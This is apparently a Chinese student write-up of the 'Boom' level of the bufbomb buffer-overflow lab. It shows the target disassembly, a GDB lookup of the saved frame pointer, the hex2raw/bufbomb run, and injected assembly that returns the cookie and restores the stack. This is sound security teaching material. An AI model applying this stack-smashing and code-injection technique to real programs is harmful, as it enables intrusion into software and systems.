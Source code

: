 本实验级别的挑战在于 **构造一个攻击字符串，该字符串需确保getbuf函数能够正确地将cookie值返回给test函数，而非简单地返回值1** 。此外，攻击代码还需负责修复任何被破坏的栈帧状态，确保将正确的返回地址重新压入栈中，并通过执行ret指令实现无缝返回到test函数，以维持程序的正常执行流程。

##### 建议

同上一级别，例如可使用GDB确定保存的返回地址等参数。

一种可能的解题思路:-)

- 将cookie值返回给test函数：可通过%EAX寄存器传递。EAX寄存器在x86架构中常用于存储函数返回值。
- 还原任何被破坏的栈帧状态：你需要考虑攻击字符串破坏了栈帧的哪些状态数据。
- 返回到原来的调用函数test执行：可使用push和ret这两条指令完成该动作。

攻击成功显示如下：

```
linux>cat boom.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Boom!: getbuf returned 0x25e1304b
VALID
NICE JOB!
```

### 过程

查看test代码：

```
080494f0 <test>:
 80494f0:	55                   	push   %ebp
 80494f1:	89 e5                	mov    %esp,%ebp
 80494f3:	83 ec 18             	sub    $0x18,%esp
 80494f6:	e8 a5 04 00 00       	call   80499a0 <uniqueval>
 80494fb:	89 45 f0             	mov    %eax,-0x10(%ebp)
 80494fe:	e8 11 07 00 00       	call   8049c14 <getbuf>
 8049503:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8049506:	e8 95 04 00 00       	call   80499a0 <uniqueval>
 804950b:	8b 55 f0             	mov    -0x10(%ebp),%edx
 804950e:	39 d0                	cmp    %edx,%eax
```

也就是用%eax存储了cookie值

在`getbuf`函数中修改了栈指针的值，题目要求保持栈指针的值不变，所以要将栈指针的值还原，获取栈指针原来的值：

```
(gdb) b getbuf
Breakpoint 1 at 0x8049c1a
(gdb) r -u 学号
(gdb) x $ebp
0x55687770 <_reserved+1030000>: 0x55687790
```

插入汇编代码：

```
mov     0x804d190,%eax      # cookie的地址
push    $0x8049503          # getbuf返回到test的地址
ret
```
